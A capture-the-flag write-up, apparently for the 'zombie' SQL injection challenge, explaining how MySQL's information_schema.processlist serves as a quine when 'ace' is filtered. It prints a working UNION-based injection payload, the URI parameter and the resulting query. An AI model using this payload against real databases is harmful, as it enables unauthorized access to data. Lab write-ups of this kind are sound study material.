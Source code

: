 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 31
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/619f9f68-e38d-47a0-a15b-ff662242c83b)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_zombie WHERE pw='{$_GET[pw]}'
```

Similar to [ouroboros], in this challenge, we have to use a Quine in order to solve it.
However, since `ace` is being filtered out, we have to find another way of crafting our Quine.

&nbsp;

## `information_schema.processlist`

As noted by [this documentation](https://dev.mysql.com/doc/refman/8.4/en/information-schema-processlist-table.html), in MySQL, the `info` column of the `information_schema.processlist` contains the operation that is currently being executed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/883c41a1-9cb1-4b55-98b3-641f02529310)

```sql
SELECT info FROM information_schema.processlist
```

Since the above query is being executed, the value present in the `info` column of `information_schema.processlist` would be:

```
+-------------------------------------------------+
| info                                            |
+-------------------------------------------------+
| SELECT info FROM information_schema.processlist |
+-------------------------------------------------+
```

As we can see, the SQL query outputs itself, thus acting as a Quine.

&nbsp;

## Modified Quine

```sql
1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

- **`substr(info,locate('1',info),length(info)-locate('1',info))`**:
    - `locate('1', info)` finds the position of the first occurrence of the character `'1'` in the `info` column.
    - `length(info)` gives the total length of the `info` column's content.
    - `length(info)-locate('1',info)` calculates the length of the substring starting from the first occurrence of `'1'` to the end of the `info` content.
    - `substr(info, locate('1', info), length(info) - locate('1', info))` extracts this substring.
- **`from information_schema.processlist`**:   
    - This specifies the table from which the data is being selected. The `information_schema.processlist` table contains information about the currently running processes in the MySQL database server.

&nbsp;

If we provide the following URI parameter:

```
?pw=1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

The resultant query becomes:

```sql
SELECT pw FROM prob_zombie WHERE pw='1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist #'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/606cc988-e99e-4db2-90fc-25387e44ccc7)
